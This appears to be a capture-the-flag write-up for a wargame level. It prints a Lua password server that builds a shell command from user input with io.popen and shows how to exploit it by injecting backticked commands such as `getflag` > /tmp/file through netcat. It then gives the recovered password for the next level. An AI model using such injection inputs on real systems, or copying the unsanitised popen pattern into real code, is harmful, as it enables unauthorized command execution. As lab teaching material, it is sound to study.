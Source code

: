 We find a `.lua` file here, which is a programming language, so let’s read the file to see what it does

```bash
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end

while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

This file sets up a TCP server listening for connections on IP `127.0.0.1` at port 5151.

Once connected the server prompts a password, hashes the input with SHA-1 alogrithm, and compares it to a hardcoded hash. Based on this comparison it sends a response to the client.

To check how it works let us listen using that port

```bash
nc 127.0.0.1 5151
```

It asks for a password as expected so let’s try to excute some commands

```bash
getflag: error
`getflag`: error
getflag > /tmp/file: error but saves the output
`getflag` > /tmp/file: error but we get the flag
```

Let’s go on

```bash
su level12
Password: fa6v5ateaw21peobuub8ipe6s
```